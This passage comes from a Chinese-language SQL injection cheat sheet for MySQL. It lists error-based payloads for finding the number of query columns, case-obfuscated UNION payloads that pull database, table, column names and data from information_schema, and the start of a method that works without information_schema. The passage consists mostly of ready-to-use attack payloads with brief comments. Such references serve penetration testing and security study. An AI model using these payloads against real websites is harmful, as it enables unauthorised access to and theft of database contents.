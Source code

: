 如果启用了错误显示，此方法有效。

```sql
1' UNION SELECT @--+        #使用的SELECT语句列数不同
1' UNION SELECT @,@--+      #使用的SELECT语句列数不同
1' UNION SELECT @,@,@--+    #没有错误意味着查询使用3列
                            #-1' UNION SELECT 1,2,3--+	正确
```

##### 使用 `LIMIT INTO` 基于错误的方法

如果启用了错误显示，此方法有效。

当注入点位于LIMIT子句之后时，它对于查找列数很有用。

```sql
1' LIMIT 1,1 INTO @--+        #使用的SELECT语句列数不同
1' LIMIT 1,1 INTO @,@--+      #使用的SELECT语句列数不同
1' LIMIT 1,1 INTO @,@,@--+    #没有错误意味着查询使用3列
                              #-1' UNION SELECT 1,2,3--+	正确
```

##### 使用 `SELECT * FROM SOME_EXISTING_TABLE` 基于错误的方法

如果你知道要查找的表名且启用了错误显示，此方法有效。

它将返回表中的列数，而不是查询的列数。

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#操作数应包含3列
                                        # 这个错误意味着查询使用3列
                                        #-1' UNION SELECT 1,2,3--+	正确
```

### 使用 information_schema 提取数据库

然后以下代码将提取数据库名称、表名称、列名称。

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```

### 不使用 information_schema 提取列名称

适用于 `MySQL >= 4.1` 的方法。

首先提取列号

```sql
?id=(1)and(SELECT * from db.users)=(1)
-- 操作数应包含4列
```

然后提取列名称。
